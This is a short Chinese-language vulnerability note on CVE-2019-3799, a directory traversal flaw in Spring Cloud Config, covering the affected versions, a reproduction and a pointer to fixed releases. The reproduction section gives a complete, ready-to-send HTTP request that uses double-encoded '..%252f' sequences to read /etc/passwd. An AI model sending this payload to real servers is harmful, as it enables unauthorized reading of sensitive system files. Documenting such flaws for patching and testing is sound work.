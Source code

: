 # Spring Cloud Config 目录遍历漏洞 CVE-2019-3799

# Spring Cloud Config 目录遍历漏洞 CVE-2019-3799

## 漏洞描述

由于 spring-cloud-config-server 模块未对传入路径进行安全限制，攻击者可以利用多个 `..%252f` 进行目录遍历，查看服务器其他路径的敏感文件，造成敏感信息泄露。

## 漏洞影响

```
Spring Cloud Config 2.1.0 to 2.1.1
Spring Cloud Config 2.0.0 to 2.0.3
Spring Cloud Config 1.4.0 to 1.4.5
```

## 漏洞复现

```
GET /foo/default/master/..%252F..%252F..%252F..%252Fetc%252fpasswd HTTP/1.1
Host: your-ip:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

## 漏洞修复

Spring 官方最新版本已经对 Spring Cloud Config 目录遍历漏洞进行了修复，下载地址：https://github.com/spring-cloud/spring-cloud-config/releases

